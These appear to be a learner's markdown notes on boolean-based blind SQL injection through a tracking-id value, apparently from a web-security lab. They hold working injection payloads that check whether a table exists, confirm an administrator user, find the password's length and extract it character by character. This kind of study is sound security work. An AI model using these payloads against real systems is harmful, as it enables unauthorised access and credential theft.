 	- In simple terms (If this tracking id exists -> query returns value -> Welcome back message)
	- ---> ( If the tracking id don't exist -> query returns nothing -> no Welcome back message)
		- TRUE -> Welcome back             ---> (wQzpcksV9nxMDwHH' and 1=1--')
		- FALSE -> no Welcome back       ---> (wQzpcksV9nxMDwHH' and 1=1--')


Find Table (Try and Errors)
```
wQzpcksV9nxMDwHH' and (select 'x' from TABLE_NAME LIMIT 1)='x'--'
```

- TABLE_NAME         ---> Table we are looking to see if exist (try an error)
- LIMIT 1                    ---> Only mean that we want 1 output (We dont want mutiples x in query)

- 'x' act has a dummy variable (simply mean if the TABLE_NAME exist, then make the qury = x) If the table exist then 'x' = 'x'-- (True Statement ---> Display default message)


**Find Column Name ???**
```

```


Find a Variable in a Column
```
wQzpcksV9nxMDwHH' and (select Column_Name from Table_Name where Column_Name_same_has_the_other_one='administrator')='administrator'--'
```

- Column_Name                     ---> The Column Name that we are looking to get the variable
- Table_Name                         ---> Table Name that we are interested in (see previous step)
- Column_Name_same...        ---> Same Column Name has the one selected
- administrator                       ---> Variable we are looking to find (True = Default HTML Resp)


Length of Variable (ex: password of administator account)
```
wQzpcksV9nxMDwHH' and (select Column_Name from Table_Name where Column_Name_same...='administrator' and LENGTH(password)>20)='administrator'--'
```

- Column_Name                    ---> The Column Name that we are looking to get the variable
- Table_Name                        ---> Table Name that we are interested in (see previous step)
- Column_Name_same...       ---> Same Column Name has the one selected
- administrator                       ---> Variable we are looking to find (True = Default HTML Resp)
- password                             ---> Second Column (looking length variable for user administator)

- <,>,>=,<=
- Possible also to change the number to determine the length of the variable


Enumeration of Varaible (ex: password of administator account)
```
wQzpcksV9nxMDwHH' and (select substring(Column_Name_PASSWORD,2,1) from Table_Name where Column_Name='administrator')='a'--'
```
